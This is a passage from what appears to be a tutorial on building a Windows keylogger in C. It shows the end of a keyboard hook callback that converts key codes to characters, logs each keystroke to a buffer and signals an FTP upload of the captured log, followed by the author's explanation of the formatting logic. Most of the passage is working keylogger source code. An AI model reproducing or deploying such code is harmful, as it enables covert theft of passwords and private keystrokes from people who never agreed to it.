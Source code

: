```c
                    case VK_OEM_1:
                        GetAsyncKeyState(VK_SHIFT) ? Log(":") : Log(";");
                        break;
                    case VK_OEM_2:
                        GetAsyncKeyState(VK_SHIFT) ? Log("?") : Log("/");
                        break;
                    case VK_OEM_3:
                        GetAsyncKeyState(VK_SHIFT) ? Log("~") : Log("`");
                        break;
                    case VK_OEM_4:
                        GetAsyncKeyState(VK_SHIFT) ? Log("{") : Log("[");
                        break;
                    case VK_OEM_5:
                        GetAsyncKeyState(VK_SHIFT) ? Log("|") : Log("\\");
                        break;
                    case VK_OEM_6:
                        GetAsyncKeyState(VK_SHIFT) ? Log("}") : Log("]");
                        break;
                    case VK_OEM_7:
                        GetAsyncKeyState(VK_SHIFT) ? Log("\"") : Log("'");
                        break;
                }
            }

            // wait until upload buffer is ready
            // if log buffer is at max size, wait until upload is ready
            if (dwLogBufLen == MAX_LOG_SIZE - 1)
                WaitForSingleObject(hTempBufNoData, INFINITE);
            else
                // otherwise, wait for 500 ms 
                if (WaitForSingleObject(hTempBufNoData, 0) == WAIT_TIMEOUT)
                    // ignore if timed out
                    return CallNextHookEx(0, nCode, wParam, lParam);

            // write out to separate buffer
            strcpy(lpTempBuf, lpLogBuf);
            // reset event 
            ResetEvent(hTempBufNoData);
            // signal ftp upload
            SetEvent(hTempBufHasData);

            // reset log buffer size
            ZeroMemory(lpLogBuf, dwLogBufSize);
        }
    }

    return CallNextHookEx(0, nCode, wParam, lParam);
}
```

This function is quite lengthy, purely because of the need to properly parse and format the recorded keystroke. There is a lot of hard coding involved to check the given virtual key code provided by the `lParam` parameter. In summary, switch cases are used to provide the corresponding character with a virtual key code which must be checked against the `SHIFT` key to see if any alternate keystrokes were used. For special keys such as `Enter` and `Caps Lock`, formatting is needed so that a label is recorded in place of the actual character. Of course, this is just my implementation of the formatting and by all means, it is entirely possible to have the raw character instead of a representative label.
